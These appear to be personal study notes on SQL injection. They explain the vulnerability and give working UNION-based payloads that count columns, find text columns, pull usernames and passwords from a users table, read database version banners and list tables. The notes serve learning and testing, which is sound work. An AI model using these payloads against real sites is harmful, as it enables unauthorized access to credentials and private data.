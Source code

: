 
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

impact of sql injection :
A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information

how to find the web site is vuln to sql injection
Submitting the single quote character `'` and looking for errors or other anomalies.

In SQL, a boolean condition is an expression that evaluates to either true or false. It is commonly used in the context of the WHERE clause of a SELECT, UPDATE, DELETE, or INSERT statement to filter or manipulate data based on certain conditions.

SQL does not have a dedicated boolean data type in the traditional sense. Instead, it uses various data types and expressions to represent boolean logic. Here are some common ways boolean conditions are represented in SQL:

1. **Comparison Operators**: SQL uses comparison operators to create boolean conditions by comparing two values. Some common comparison operators are:

   - `=` (equals)
   - `<>` or `!=` (not equals)
   - `<` (less than)
   - `>` (greater than)
   - `<=` (less than or equal to)
   - `>=` (greater than or equal to)

   For example:
   ```sql
   SELECT * FROM users WHERE age >= 18;
   ```

2. **Logical Operators**: SQL provides logical operators to combine multiple conditions into more complex boolean expressions. The main logical operators are:

   - `AND`: Returns true if both conditions on the left and right side are true.
   - `OR`: Returns true if at least one of the conditions on the left or right side is true.
   - `NOT`: Negates the result of the following condition.

   For example:
   ```sql
   SELECT * FROM products WHERE price <= 100 AND in_stock = true;
   ```

3. **IN Operator**: The IN operator is used to check if a value matches any value in a list. It is often used in combination with parentheses to specify the list of values.

   For example:
   ```sql
   SELECT * FROM products WHERE category IN ('Electronics', 'Appliances', 'Books');
   ```

4. **LIKE Operator**: The LIKE operator is used for pattern matching in string data. It allows you to search for values based on specific patterns.

   For example:
   ```sql
   SELECT * FROM customers WHERE name LIKE 'John%';
   ```

5. **IS NULL / IS NOT NULL**: These conditions are used to check for NULL values in a column.

   For example:
   ```sql
   SELECT * FROM orders WHERE shipped_date IS NULL;
   ```

These are just some examples of boolean conditions in SQL. You can combine them to create more complex conditions as needed to filter or manipulate data in your SQL queries.

The key thing here is that the double-dash sequence -- is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment


Most SQL injection vulnerabilities arise within the `WHERE` clause of a `SELECT` query. This type of SQL injection is generally well-understood by experienced testers.

But SQL injection vulnerabilities can in principle occur at any location within the query, and within different query types. The most common other locations where SQL injection arises are:

- In `UPDATE` statements, within the updated values or the `WHERE` clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the `ORDER BY` clause.

~~~
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
~~~

This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`.

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.


## Determining the number of columns required in a SQL injection UNION attack


Find the number of columns in the database by this two methods 
we use the order by clause when we didn't know the name of the column

~~~
'ORDER BY 1-- '
'ORDER BY 2--'
'ORDER BY 3--'
~~~

By trying this we find the number of columns in database 

in the other method we use the null  
~~~
'UNION SELECT NULL--'
'UNION SELECT NULL,NULL--'
'UNION SELECT NULL,NULL,NULL--'etc
~~~

by these method we find the number columns in database

On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:
~~~
' UNION SELECT NULL FROM DUAL--
~~~


The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.

## Finding columns with a useful data type in a SQL injection UNION attack

~~~
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
~~~



## Using a SQL injection UNION attack to retrieve interesting data

The database contains a table called `users` with the columns `username` and `password`.

~~~
' UNION SELECT username, password FROM users--
~~~



## Retrieving multiple values within a single column

~~~
' UNION SELECT NULL,username || '~' || password FROM users--
~~~

Double pipe is used for orcale database type it will vary by the software version

# SQL injection attack, querying the database type and version on Oracle

~~~
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
~~~

# SQL injection attack, querying the database type and version on MySQL and Microsoft

~~~
'UNION SELECT @@version,NULL#
~~~

## SQL injection attack, listing the database contents on non-Oracle databases


~~~
'UNION SELECT 'asd','asas'--
~~~

for the tables 

~~~
' UNION SELECT table_name, NULL FROM information_schema.tables-- 
~~~







